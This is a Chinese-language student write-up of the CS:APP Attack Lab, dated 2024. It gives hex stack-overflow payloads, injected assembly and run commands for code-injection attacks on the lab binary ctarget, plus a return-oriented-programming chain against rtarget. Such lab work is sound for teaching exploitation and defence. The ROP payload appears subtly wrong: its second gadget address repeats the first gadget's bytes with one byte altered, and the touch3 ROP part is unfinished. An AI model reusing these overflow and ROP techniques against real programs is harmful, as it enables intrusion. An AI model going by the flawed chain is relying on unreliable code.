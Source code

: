 # Attack Lab

> 🥝 第三章：程序的机器级表示

## Part I: Code Injection Attacks

🌼 第一部分没有栈随机化和栈only-read限制

🍌 需要输入字符，字符是实际注入代码的位表示

🍎 在进行执行时加上`-qi` ， 跳过联网，进行本地执行



## touch1

> 在getbuf函数调用后，执行touch1函数，而不是返回test

1. getbuf读入字符时， 没对长度做限制，意味着可以读入超过bufSize的字符

2. 将test函数call getbuf函数时在栈上压入的ret地址改为touch1函数的地址（0x4017c0）

3. 位表示 `bit1`

   ```text
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   c0 17 40 00 00 00 00 00
   ```

4. 通过hex2raw将bit转化为字符  `./hex2raw < bit1 > str1` 

5.  执行  `./ctarget -qi str1`

## touch2

> 相对于touch1， 需要传递给touch2参数， 参数为cookie的值

1.  🍈需要注入代码，让cookie值传递给%rdi寄存器

2.  🍀inject code `touch2_inject_code.s`

   ```assembly
   movq $0x59b997fa, %rdi # 传递cookie
   pushq $0x4017ec        # 入栈touch2函数的返回地址 
   ret					   # 执行touch2	
   ```

3. 🍂 编译inject code，并且查看对应的bit表示 

   ```
   gcc -c touch2_inject_code.s
   objdum -d touch2_inject_code.o
   ```

   ```
   # 编译后表示为
   
   0000000000000000 <.text>:
      0:   48 c7 c7 fa 97 b9 59    mov    $0x59b997fa,%rdi
      7:   68 ec 17 40 00          push   $0x4017ec
      c:   c3                      ret 
   ```

4.  🍃将test函数的返回地址改为inject code的地址

5.  🌿inject code的地址为进入getbuf后分配栈空间后的位置 （0x5561dc78）

6.  🏵️ 位表示 `bit2`

   ```
   48 c7 c7 fa 97 b9 59 68  # inject code 
   ec 17 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00 # inject code rsp position
   
   ```

7. 将位表示转化为字符 `./hex2raw < bit2 > str2` 

8. 执行  `./ctarget -qi str2`


## touch3

1.  🍈 相对于touch2，传递参数为字符指针，指向cookie存放的位置

2.  避免hexmatch函数的调用栈覆盖cookie数组的数据

3.  字符数组存放在ret的+8位置（执行完touch3后直接退出程序，不会影响其他）

4.  inject code 

   ```assembly
   movq $0x5561dca8, %rdi # 字符数组位置，相当于touch2的栈顶位置加去0x30
   push $0x4018fa   # touch3函数位置
   ret 
   ```

5. 🏵️ 位表示 `bit3`

   ```
   48 c7 c7 a8 dc 61 55 68
   fa 18 40 00 c3 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   00 00 00 00 00 00 00 00
   78 dc 61 55 00 00 00 00
   35 39 62 39 39 37 66 61
   ```

6. 将位表示转化为字符 `./hex2raw < bit3 > str3` 

7. 执行  `./ctarget -qi str3`



## Part II: Return-Oriented Programming

> 🌿 具有栈随机化和栈只读限制
>
> ☘️ 只能通过程序已有代码来进行代码攻击
>
> 🍀 不断ret跳转执行代码片段

### touch2

> 和partⅠ中touch2实现的效果一样



 1. 🍉test的ret地址改为第一段gadget代码地址

 2. 🍊test的ret地址+8位置为 cookie的值

 3. 🍋test的ret地址+16位置为第二段gadget代码的值

 4. 🍌test的ret地址+24位置为touch2函数的地址

 5. 🍍gadget代码，根据已有代码可以灵活实现

    ```assembly
    popq %rax  
    ret
    
    movq %rax %rdi
    ret
    ```

 6. 🍎找出gadget代码位置

    ```assembly
    # bit表示 58 c3
    popq %rax  
    ret
    # bit表示  48 89 c7 c3
    movq %rax %rdi
    ret
    ```

 7. 🍏位表示

    ```
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    39 39 39 39 39 39 39 39
    cc 19 40 00 00 00 00 00 # 第一段gadget
    fa 97 b9 59 00 00 00 00 # cookie
    cc 19 10 00 00 00 00 00 # 第二段gadget
    ec 17 40 00 00 00 00 00 # touch2
    ```

 8. 🍐将位表示转化为字符 `./hex2raw < bit4 > str4` 

9. 🍓执行  `./rtarget -qi str4`

### touch3

> 暂无精力，有机会再来

------



第一版本，完成于2024/04/06, 缺少每个touch的栈图表示